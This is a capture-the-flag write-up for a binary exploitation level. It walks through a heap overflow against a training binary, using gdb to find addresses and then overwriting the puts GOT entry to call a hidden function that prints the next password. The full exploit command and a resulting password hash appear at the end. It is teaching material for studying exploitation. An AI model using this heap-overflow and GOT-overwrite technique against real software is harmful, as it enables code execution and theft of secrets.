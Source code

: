 ## GOT some Heap overlow ? (level7)

This level's [binary](source.c) requires two arguments, otherwise it segfaults.
Then, upon this argument treatment it prints "~~".

This time, four mallocs are done in a row, all of 8 bytes. Two of them will be
used as destinations for strcpy calls. The first one from argv[1] and the second
one from argv[2] \(hence the segfaults when providing less than two arguments).
This means that we have two places to overflow from. The first target is a fgets
call just after a fopen of the next level's password file. The destination
buffer is _c_ which is a global pointer set to NULL as it is not explicitly
initialized. We need to set _c_ to a value we can read from so that the password
is stored somewhere we can access. Then we actually need to access the thing.
For this, there is an uncalled function _m_ which contains a printf call that
prints _c_ as a string. So we must execute a GOT overwrite for the puts call
just after the fgets (the one that prints "~~"). This should lead us to the
password.

First let's get all the addresses we need:

```shell
# run gdb on the binary
gdb ./level7
# get c's address
(gdb) i addr c
Symbol "c" is at 0x8049960 in a file compiled without debugging.
# get m's address
(gdb) i addr m
Symbol "m" is at 0x80484f4 in a file compiled without debugging.
# get puts' got address
(gdb) disass main
...
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
...
(gdb) x/3i 0x8048400
   0x8048400 <puts@plt>:        jmp    *0x8049928 # puts' got address
   0x8048406 <puts@plt+6>:      push   $0x28
   0x804840b <puts@plt+11>:     jmp    0x80483a0
# then break after each malloc call to get the allocations addresses
(gdb) b *0x08048536
Breakpoint 1 at 0x8048536
(gdb) b *0x08048550
Breakpoint 2 at 0x8048550
(gdb) b *0x08048565
Breakpoint 3 at 0x8048565
(gdb) b *0x0804857f
Breakpoint 4 at 0x804857f
(gdb) run aaaa bbbb
Starting program: /home/user/level7/level7 aaaa bbbb

Breakpoint 1, 0x08048536 in main ()
(gdb) x/1x $eax
0x804a008:      0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048550 in main ()
(gdb) x/1x $eax
0x804a018:      0x00000000
(gdb) c
Continuing.

Breakpoint 3, 0x08048565 in main ()
(gdb) x/1x $eax
0x804a028:      0x00000000
(gdb) c
Continuing.

Breakpoint 4, 0x0804857f in main ()
(gdb) x/1x $eax
0x804a038:      0x00000000
```

Results:

| c         | m         | puts' got | malloc 1  | malloc 2  | malloc 3  | malloc 4  |
|-----------|-----------|-----------|-----------|-----------|-----------|-----------|
| 0x8049960 | 0x80484f4 | 0x8049928 | 0x804a008 | 0x804a018 | 0x804a028 | 0x804a038 |

Of course all the allocated memory is way after c or puts' got location in the
program's memory. Then what we need to do is use the first strcpy call to
overwrite the second's call destination address. This way we can start writing
from where we want. Since we must write in put's got and in _c_ and that put's
got address is before _c_ it would make sense to start from there.

What we must do (value --> destination):
* _puts' got_ --> _malloc 3_ + 4 bytes
* _m_ --> _puts' got_
* some valid memory zone (_malloc 1_) --> _c_

The first strcpy call has _malloc 2_ for destination. The second one starts at
the address pointed to at _malloc 3_ + 4 bytes. It's _malloc 4_ but it can be
overwritten by the first strcpy. _malloc 3_ + 4 bytes is at 0x804a02c. So here
is the first payload:

| padding bytes (20) | puts' got (4) |
|--------------------|---------------|
| "a" * 20           | 0x8049928     |


The second strcpy payload will just contain _m_'s address to replace puts' got:

| m's address (4) |
|-----------------|
| 0x80484f4       |

> There is actually no need to change c's value. It looks like it is in fact 
> initialized when level7 is running out of gdb.

So here is the command to execute for this level:

```shell
./level7 $(python -c 'print "a" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1657074326
```
